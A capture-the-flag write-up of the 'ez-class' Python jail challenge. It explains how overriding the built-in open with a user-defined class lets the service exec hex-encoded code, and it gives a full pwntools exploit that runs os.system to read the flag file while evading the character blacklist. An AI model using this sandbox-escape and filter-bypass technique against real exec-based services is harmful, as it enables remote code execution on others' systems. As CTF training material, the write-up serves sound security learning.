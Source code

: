 # ez-class (misc, 375 points, 17 solves)

>This one is pretty ez
```shell
nc ezclass.bctf23-codelab.kctf.cloud 1337
```

## Overview
This challenge talks about a service that gives us the possibility to create and run classes.
We can specify:
- The class name
- A parent class
- Number of methods
- Method names
- Method params
- Method body

There is no blacklist except for this little one here: `().\n`
We can run a class and also its dependencies. After executing the class, the service returns us an instance of the specified class.

## The first idea
How are we going to execute code if the only thing that gets done is loading the class and instantiating the object?

The first idea that came to my mind is to do some ✨**magic**✨ using [magic functions](https://www.tutorialsteacher.com/python/magic-methods-in-python).
There are so many! But a useful one is [`__new__`](https://www.pythontutorial.net/python-oop/python-__new__/):

>When you create an instance of a class, Python first calls the `__new__()` method to create the object and then calls the `__init__()` method to initialize the object’s attributes.

Using `__new__`, we can return some values and we can execute code, but we can't call functions yet.

Let's take a look at how the classes are loaded:
```python
def exec_class(filename, dependancies, class_name):
    for dep in dependancies:
        with open('/tmp/' + dep, 'r') as f:
            exec(f.read())

    with open('/tmp/' + filename, 'r') as f:
        exec(f.read())

    print('Here is an instance of your class')
    print(locals()[class_name]())
```

If we're able to override `read()` we can get RCE.

## It's time to get out of the pyjail!
We need to:
- Override the `open` function with a class
- Override the `read` with our custom method which needs to return the code to print the flag
- Profit

The class will look like this:
```python
class open(object):
    def __init__(filename,*args):
        pass

    def __enter__(self):
        return self

    def __exit__(*args):
        pass

    def read(self):
        global open;open=self;return "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29"
```

We also need to add `__enter__` and `__exit__` because they're automatically called by the `with` operator.
Inside the `read` method, we override the `open` function with our instance of the class `self` and then, we return the code to print the flag.

Now we can create this class inside the service and then run it.
The service will also ask us to specify the dependencies of the class to be executed, we put the class created before.

So the service will behave like this:
Here, we override the open function with our class:

```python
for dep in dependancies:
    with open('/tmp/' + dep, 'r') as f:
        exec(f.read())
```

Now that we've overridden the open function, the code passed above to print the flag will be executed here:
```python
with open('/tmp/' + filename, 'r') as f:
    exec(f.read())
```

The service will then crash at this instruction, but we don't care😈:
```python
print(locals()[class_name]())
```

## The exploit

```python
from pwn import remote

def create_class(p, classname, parent, functions):
    print(f"Creating class {classname}")
    p.sendline(b"1")
    p.sendline(classname.encode())
    p.sendline(parent.encode())
    p.sendline(f"{len(functions)}".encode())
    for function in functions:
        p.sendline(function["name"].encode())
        p.sendline(function["params"].encode())
        p.sendline(function["body"].encode())
    print("Done!")


def run_class(p, torun, dep):
    print(f"Running class {torun}")
    p.sendline(b"2")
    p.sendline(torun.encode())
    p.sendline(dep.encode())
    print("Done!")

def bypass_char_blacklist(code):
    result = ""
    for char in code:
        result += "\\x" + hex(ord(char))[2:].zfill(2)
    return result

clean_code = """
import os
os.system('cat /tmp/flag.txt')
"""

to_exec = bypass_char_blacklist(clean_code)

r = remote("ezclass.bctf23-codelab.kctf.cloud", 1337)

fake_open_classname = "open"
fake_open_parent = "object"
fake_open_functions = [
    {"name": "__init__", "params": "filename,*args", "body": "pass"},
    {"name": "__enter__", "params": "self", "body": "return self"},
    {"name": "__exit__", "params": "*args", "body": "pass"},
    {"name": "read", "params": "self", "body": f"global open;open=self;return \"{to_exec}\""}
]

create_class(r, fake_open_classname, fake_open_parent, fake_open_functions)
run_class(r, fake_open_classname, fake_open_classname)

r.interactive()
```

### Output:
**EZ!**

![EZ!](https://i.imgur.com/2BC2X35.png)


This was my favorite challenge. Thanks to the organizers for this wonderful CTF!

